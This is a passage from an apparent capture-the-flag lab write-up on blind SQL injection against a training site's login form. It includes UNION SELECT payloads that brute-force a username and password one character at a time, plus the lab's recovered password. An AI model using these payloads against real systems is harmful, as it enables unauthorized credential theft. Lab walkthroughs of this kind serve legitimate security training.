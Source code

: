 Repeating this process three times will enable you to discover the columns' id, username and password. Which now you can use to query the users table for login credentials. First, you'll need to discover a valid username, which you can use the payload below:

```
admin123' UNION SELECT 1,2,3 from users where username like 'a%
```

Once you've cycled through all the characters, you will confirm the existence of the username admin. Now you've got the username. You can concentrate on discovering the password. The payload below shows you how to find the password:

```
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```

Cycling through all the characters, you'll discover the password is 3845.


You can now use the username and password you've enumerated through the blind SQL Injection vulnerability on the login form to access the next level.


*********

Let's GO to hacking this login with together.

In my opinion, this type of injection is somewhat complicated because it depends on guesswork and brute force to reach the database because it depends on blind injection. :(

We will try defualt link:

```
https://website.thm/checkuser?username=admin
```

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/cdfb0af0-e4d9-4419-91b7-830d256f1859  " >
</p>

this means that exist user as same name ***admin***

We will try it:

```
https://website.thm/checkuser?username=mohamed
```

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/d63981a6-fe23-4b0f-9d2b-17abeb02dbb4 " >
</p>

Good , mohamed isn't there in database;

Let's play with our payloads:

```
https://website.thm/checkuser?username=mohamed' UNION SELECT 1;--
```


<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/575a9c6d-d8ad-404d-a33a-5cd7574dad2c " >
</p>
